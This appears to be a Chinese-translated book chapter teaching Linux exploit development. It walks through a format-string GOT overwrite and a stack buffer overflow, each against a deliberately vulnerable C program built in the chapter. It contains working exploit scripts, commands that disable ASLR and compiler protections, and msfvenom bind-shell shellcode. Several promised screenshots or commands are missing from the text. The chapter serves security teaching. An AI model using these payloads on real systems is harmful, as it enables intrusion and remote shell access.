



# 十四、Linux 利用开发

在本章中，我们将介绍以下配方：

*   格式字符串利用
*   缓冲区溢出

# 介绍

利用为 Linux 环境开发的应用程序中的漏洞进行开发可以使用 Python 工具完成。我们必须使用`pwndbg`之类的调试器来调试应用程序。然后，我们可以使用 Python 脚本来利用这些漏洞。在本章中，我们将介绍一些基本的漏洞和方法，用 Python 为其开发一个利用脚本。

# 格式字符串利用

格式字符串是包含文本和格式参数的 ASCIIZ 字符串。当应用程序将输入字符串的提交数据作为命令进行评估时，就会出现格式字符串漏洞。借助此方法，攻击者可以执行代码、读取堆栈，并可能导致分段错误。大多数`printf`系列函数中都存在格式字符串漏洞，如`printf`、`sprintf`和`fprintf`。以下是可用于格式化字符串漏洞的常见参数：

*   `"%x"`：从栈中读取数据
*   `"%s"`：从进程内存中读取字符串
*   `"%n"`：将整数写入进程内存中的位置
*   `"%p"`：指向 void 的指针的外部表示

# 准备

我们需要一个 32 位 x86 Linux 真实或虚拟环境来创建易受攻击的应用程序，并了解其中涉及的流程的基本概念。对 Linux 环境中的一些概念有一个基本的了解也是一个先决条件。

确保在 Linux 环境中安装`pwndbg`调试器。要检查，打开终端并键入`gdb`：

```
>> gdb  
```

这将打开`pwndbg`控制台（如果安装）：

```
pwndbg>   
```

您可以使用`q`从此控制台退出。我们的工作还需要一个易受攻击的应用程序。为了更好地理解，我们可以用 C 创建一个简单的易受攻击的应用程序。

# 全局偏移表

程序在编译时使用全局偏移量表。它有助于从外部库获取所用函数的位置。要查看这一点，我们必须依赖于`objdump`命令。`objdump`命令是用于获取对象文件详细信息的 Linux 环境。这在调试时非常有用。

# 生成 shell 代码

要生成用于注入的 shell 代码，我们必须使用 Metasploit shell 代码生成功能，因此请确保您的计算机上安装了 Metasploit。

# 怎么做。。。

以下是在 Linux 环境中创建利用格式字符串的利用脚本的步骤：

1.  首先，我们需要创建一个易受攻击的应用程序。因此，我们可以编写一个带有格式字符串漏洞的 C 文件。创建一个`fmt.c`文件并在编辑器中打开它。

2.  在其中添加以下代码并保存：

```
#include <stdio.h>  
int main(int argc, char **argv){ 
        char buf[1024]; 
        strcpy(buf, argv[1]); 
        printf(buf); 
        printf("\n"); 
} 
```

3.  我们需要在禁用格式安全性的情况下编译此代码。为此，请运行以下命令：

```
gcc fmt.c -w -g -Wno-format -Wno-format-security -fno-stack-protector -z norelro -z execstack -o fmt  
```

这将创建一个名为`fmt`的可执行文件。我们可以将其用作示例应用程序。

4.  确保在您的测试机器中禁用**地址空间布局随机化**（**ASLR**）：

```
sysctl -w kernel.randomize_va_space=0    
```

5.  现在，我们可以运行应用程序进行测试：

```
./fmt TEST    
```

这将打印传递给应用程序的参数

6.  然后，我们将使用格式字符串输入测试应用程序：

```
./fmt %x%x%x%x
./fmt %n%n%n%n  
```


这里，第一个测试从堆栈中打印一些十六进制值，但第二个测试将值写入内存中堆栈值指向的位置，最终导致分段错误。所以，从测试结果来看，很明显，我们可以从 RAM 中读取数据，也可以向 RAM 中写入数据。

7.  现在我们可以更改输入并尝试控制参数：

```
./fmt AAAA.%x.%x.%x.%x    
./fmt BBBB.%x.%x.%x.%x  
```


我们传递的字符`AAAA`和`BBBB`以十六进制值显示为堆栈上的第四个参数，如`AAAA`的`41414141`和`BBBB`的`42424242`。由此可以清楚地看出，我们现在可以控制堆栈上的第四个参数。

8.  当我们计划控制代码执行时，我们需要更改函数的地址。所以，让我们试着找到一个 RAM 位置来写入。为此，我们可以使用`pwndbg`查看汇编代码：

```
gdb ./fmt
disassemble main  
```

这将打印汇编代码。由此我们可以确定应用程序在`59`上调用`printf@plt`，在`72`上调用`putchar@plt`。因此我们可以将断点设置为`59`进行调试：


9.  正如我们所知，全局偏移表保存库函数的当前地址。因此我们可以使用`objdump`查看 GOT 中的条目：

```
objdump -R ./fmt  
```



由此，我们将在动态重新定位记录中获得`putchar`的位置。在这里，`08049748`，对您来说可能会有所不同。因此，请确保相应地更新脚本。

10.  现在我们可以尝试写入`putchar`PLT 条目。我们可以利用`pwndbg`来实现这一点。在`pwndbg`中打开应用程序：

```
gdb ./fmt    
```

11.  在`printf`之前和`printf`之后设置第一个断点：

```
pwndbg> break * main + 59
pwndbg> break * main + 64  
```

12.  然后使用我们的负载运行应用程序，以写入我们从`objdump`获得的`putchar`地址位置。就我而言，它是`08049748`。我们必须将地址转换为 Little Endian 格式才能与 Intel 体系结构配合使用：

```
pwndbg> run $'\x48\x97\x04\x08%x%x%x%n'  
```

这将运行到我们的第一个断点，在`printf`之前：



13.  然后，我们可以检查内存位置的值的当前值：

```
pwndbg> x/4x 0x08049748  
```


14.  然后通过键入`c`前进到下一个断点。然后再次检查内存位置：

```
pwndbg> c
pwndbg> x/4x 0x08049748  
```


由此可知，该值已更改为`0x00000018`。当`printf`以 format sting 值`%n`作为参数执行时，它打印出一个 32 位的长度值，该值等于目前打印的字节数。到目前为止，程序已经打印了 18 个字节。

15.  现在，我们可以编写攻击代码来制作有效负载。为此，创建一个`exploit.py`文件并在编辑器中打开它。
16.  然后在其中添加以下代码：

```
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

这里，我们为应用程序创建一个有效负载。这将作为写入内存位置的输入提交。因此，生成 32 位字的最佳方法是执行四次写入，每次写入的目标是一个字节，然后将它们组合起来。

17.  确保利用漏洞代码具有执行权限：

```
chmod +x exploit.py    
```

18.  现在，我们可以使用此负载在调试器中运行应用程序。这正是我们以前所做的：

```
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)  
```

19.  检查内存位置：

```
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```


然后该值变为`0x4c443c34`

20.  让我们尝试更改有效负载中的一个字节。为此，将第三个格式字符串参数`%x`更改为`%16x`。这将向其添加 16 个前导零，使其长度为 16 字节：

```
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%16x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

21.  然后在调试模式下运行应用程序并检查内存中的值：

```
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```


该值从其先前的值`0x4c443c`更改为`0x564e46`。所以所有字节都增加了 16 个。现在它有 16 个字节长。

22.  现在我们可以尝试将特定地址写入该地址位置。在这里我们可以试着写`ddccbbaa`。为此，更新我们的`exploit.py`如下：

```
#!/usr/bin/python   
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n' 
print w1 + w2 + w3 + w4 + form 
```

这样，我们在每个`%n`之前添加了足够的前导零，以匹配打印字符的总数，并匹配我们计划写入的所需值。此外，总字节数随着每次写入而增加；我们必须为每个值添加 256，以使最后一个字节干净。

23.  现在使用特制的负载执行应用程序，并检查内存位置：

```
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```


现在，`putchar@got.plt`指针的值为`0xddccbbaa`，这是我们计划写入的值。

24.  现在，我们可以创建一个模式并将其插入到漏洞中。这将有助于确定可以插入 shell 代码的位置。因此，使用该模式更新我们的漏洞。这将更新脚本，如下所示：

```
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 100 
pattern = '\xcc' * 250 
print w1 + w2 + w3 + w4 + form + nopsled + pattern 
```

25.  现在使用有效负载在调试器中运行应用程序，并检查 ESP 寄存器后的`200`字节：

```
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> x/200x $esp  
```


现在我们可以看到堆栈上的 NOP 底座。我们可以在 NoP 雪橇中间选择一个地址来添加 shell 代码。在这里我们可以选择`0xbffff110`。

26.  现在我们必须用从 NOP 底座中选择的真实地址替换地址`0xddccbbaa`。为此，请使用正确的字节更新`exploit.py`：

```
b1 = 0x10
b2 = 0xf1
b3 = 0xff
b4 = 0xbf  
```

27.  现在使用调试器运行应用程序并检查内存位置：

```
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```


现在，我们可以使用 Metasploit 生成一个 shell 代码：

```
msfvenom -p linux/x86/shell_bind_tcp PrependFork=true -f python  
```



现在用 shell 代码更新漏洞攻击代码：

```
#!/usr/bin/python 
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0x10 
b2 = 0xf1 
b3 = 0xff 
b4 = 0xbf  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 95   
buf =  "" 
buf += "\xbd\x55\xe7\x12\xd0\xd9\xc2\xd9\x74\x24\xf4\x5e\x33" 
buf += "\xc9\xb1\x18\x31\x6e\x13\x03\x6e\x13\x83\xee\xa9\x05" 
buf += "\xe7\xba\x53\x92\xc5\xbb\xd6\xe2\xa2\xbd\xe9\x22\xfa" 
buf += "\xc3\xc4\x23\xca\x18\x21\xc0\x7e\xdc\x9e\x6d\x83\x6b" 
buf += "\xc1\xc2\xe5\xa6\x81\x78\xb4\x6a\xe9\x7c\x48\x9a\xb5" 
buf += "\xea\x58\xcd\x15\x62\xb9\x87\xf3\x2c\xf7\xd8\x72\x8d" 
buf += "\x03\x6a\x80\xbe\x6a\x41\x08\xfd\xc2\x3f\xc5\x82\xb0" 
buf += "\x99\xbf\xbd\xee\xd4\xbf\x8b\x77\x1f\xd7\x24\xa7\xac" 
buf += "\x4f\x53\x98\x30\xe6\xcd\x6f\x57\xa8\x42\xf9\x79\xf8" 
buf += "\x6e\x34\xf9"  
postfix = 'X' *(250 - len(buf))  
print (w1 + w2 + w3 + w4 + form + nopsled + buf + postfix) 
```

我们添加了一个后缀，使注入字符的总数保持不变。

28.  现在使用有效负载运行应用程序：

```
pwndbg> run $(./exp2.py)    
```

29.  现在尝试连接`nc`作为 shell 代码，打开端口`4444`，并尝试运行以下命令：


我们可以在调试器中看到以下详细信息：


# 缓冲区溢出

缓冲区溢出可能导致程序崩溃或泄漏私人信息。对于正在运行的程序，缓冲区可以被视为计算机主内存中具有特定边界的一部分，因此基本上可以访问该内存空间分配区域之外的任何缓冲区。

由于变量一起存储在堆栈/堆中，因此访问此边界之外的任何内容都可能导致读取/写入某些其他变量的某些字节。但是有了更好的理解，我们可以执行一些攻击。

# 怎么做。。。

按照以下步骤为 Linux 环境中的缓冲区溢出攻击生成攻击代码：

1.  我们必须为测试创建一个易受攻击的应用程序。创建一个`bof.c`文件并添加以下代码：

```
#include <stdio.h>  
void secretFunction() 
{ 
printf("Congratulations!\n"); 
printf("You have entered in the secret function!\n"); 
}  
void echo() 
{ 
char buffer[20];  
printf("Enter some text:\n"); 
scanf("%s", buffer); 
printf("You entered: %s\n", buffer); 
}  
int main() 
{ 
echo(); 
return 0; 
} 
```

2.  将其汇编如下：

```
gcc bof.c -w -g -Wno-format -Wno-format-security -fno-stack-protector -z norelro -z execstack -o bof

```

3.  我们可以运行以下应用程序测试：

```
./bof  
```


4.  我们可以运行`objdumb`：

```
objdump -d bof  
```

由此我们可以得到秘密函数的存储位置：


在这里，`0804848b`。`echo`函数的局部变量保留 28 字节：


现在我们可以设计有效负载了——正如我们所知，为缓冲区保留了 28 个字节，它位于 EBP 指针旁边。因此，接下来的四个字节将存储 EIP。现在我们可以使用任意随机字符设置前 28+4=32 字节，然后接下来的四个字节将是`secretfunction()`的地址。

5.  现在，有效载荷将如下所示：

```
print ("a"*32 + "\x8b\x84\x04\x08")    
```

将其保存到`exploit_bof.py`文件，并将其作为应用程序的有效负载加载

6.  这将使应用程序崩溃，并提供对`secretfunction()`的访问。

